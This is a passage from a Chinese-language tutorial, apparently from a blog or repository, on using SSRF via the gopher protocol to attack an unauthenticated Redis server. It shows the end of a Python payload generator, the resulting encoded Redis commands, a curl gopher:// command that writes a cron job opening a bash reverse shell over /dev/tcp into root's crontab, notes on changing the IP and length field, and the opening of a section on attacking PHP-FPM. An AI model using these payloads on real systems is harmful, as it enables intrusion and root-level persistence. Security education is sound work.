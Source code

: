 ```
        # 判断是否是空行，空行替换为%0a
        elif line == '\x0a':
            exp = exp + '%0a'
        else:
            line = line.replace('\n', '')
            exp = exp + line
print exp
```

结果为：

```
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

需要注意的是，如果要换IP和端口，前面的`$58`也需要更改，`$58`表示字符串长度为58个字节，上面的EXP即是`%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a`，3+51+4=58。如果想换成42.256.24.73，那么$58需要改成$61，以此类推就行。

本地cURL测试是否成功写入：

```
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

返回5个OK

```
+OK
+OK
+OK
+OK
+OK
```

证明应该没有问题。那再检测以下Redis写入的字段和crontab的内容。

- 检测Redis数据库的字段为`"\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n\n"`
- 检测crontab的内容也没有问题

### 3.2 攻击FastCGI

#### 3.2.1 利用条件

- libcurl版本>=7.45.0
- PHP-FPM监听端口
- PHP-FPM版本 >= 5.3.3
- 知道服务器上任意一个php文件的绝对路径

由于EXP里有%00，CURL版本小于7.45.0的版本，gopher的%00会被截断。

<https://curl.haxx.se/changes.html#7_45_0>
